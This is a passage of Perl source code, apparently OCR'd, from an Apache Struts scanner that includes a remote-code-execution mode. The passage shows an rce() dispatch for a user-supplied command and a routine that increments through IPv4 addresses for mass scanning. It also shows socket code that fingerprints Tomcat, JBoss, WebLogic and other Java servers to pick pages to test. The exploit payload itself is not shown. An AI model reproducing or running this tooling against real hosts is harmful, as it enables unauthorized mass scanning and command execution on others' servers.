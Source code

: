           }
        }
      }
      elsif ($cmd) { rce($ARGV[0],$cmd); }
      else { scan($ARGV[0],'1'); }
      outp("\nApache Struts Scanner Finished.",1);
    }
    sub dismiss_hung_workers {
      while (my ($pid, $started_at) = each %workers) {
        next unless time() - $started_at > PATIENCE;
        kill TERM => $pid;
        delete $workers{$pid};
      }
    }
    sub getip {
      if ($target[3] == 255) {
        if ($target[2] == 255) {
          if ($target[1] == 255) {
            if ($target[0] == 255) { outp("wtf are you doing?",1);exit; }
            else { $target[1] = 0; $target[2] = 0; $target[3] = 0; $target[0] = ($target[0] + 1); };
          }
          else { $target[2] = 0; $target[3] = 0; $target[1] = ($target[1] + 1); };
        }
        else { $target[3] = 0; $target[2] = ($target[2] + 1); };
      }
      else { $target[3] = ($target[3] + 1); }
      return "$target[0].$target[1].$target[2].$target[3]";
    }
    sub scan {
    my $id = "\[tID: $_[1]\]:";
    my $joinports = join(',',@ports);
    outp("$id Scanning IP: ".$_[0]." (ports: $joinports)",2);
    foreach my $port (@ports) {
      my $req = " HTTP/1.1\r\n"
      . "Host: $_[0]\r\n"
      . "Referer: http://$_[0]\r\n"
      . "User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/534.24 (KHTML, like Gecko) Chrome/11.0.696.68 Safari/534.24\r\n"
      . "Accept: application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5\r\n"
      . "Accept-Encoding: *\r\n"
      . "Accept-Language: en-US;q=0.6,en;q=0.4\r\n"
      . "Accept-Charset: windows-1251,utf-8;q=0.7,*;q=0.3\r\n"
      . "Connection: close\r\n\r\n";
      my ($sock,$check,$socket,$filter) = "";
      if (!$force) {
        #attempts to id the server and detect a page to test
        $socket= IO::Socket::INET->new(PeerAddr=>"$_[0]:$port",Proto=>'tcp',Timeout=>$timeout);
        if ($ssl) { $socket= IO::Socket::SSL->new(PeerHost => "$_[0]",PeerPort => "$port",Timeout=>$timeout); }
        if ($socket) {
          $check = "GET /";
          print $socket $check.$req;
          while (<$socket>) { $sock = $sock.$_; }
          $socket->close();
          if ($sock =~ /(Tomcat|Apache-Coyote|Glassfish|JBoss|Websphere|Weblogic|\.action|JSESSIONID|The document has moved|Moved Temporarily|Apache)/) { $filter = 1;$type=$1; }
          my $detect = "";
          if ($sock =~ /(location\=\"(.*)\"\;)/ and length($sock) < 500) { $detect = "$2"; }
          elsif ($sock =~ /(window.open.?\(\'(.*)\))/) {
            my $found = $2;
            my @split = split("'", $found);
            if ($split[0] =~ /;/) {
              my @split = split(';', $split[0]);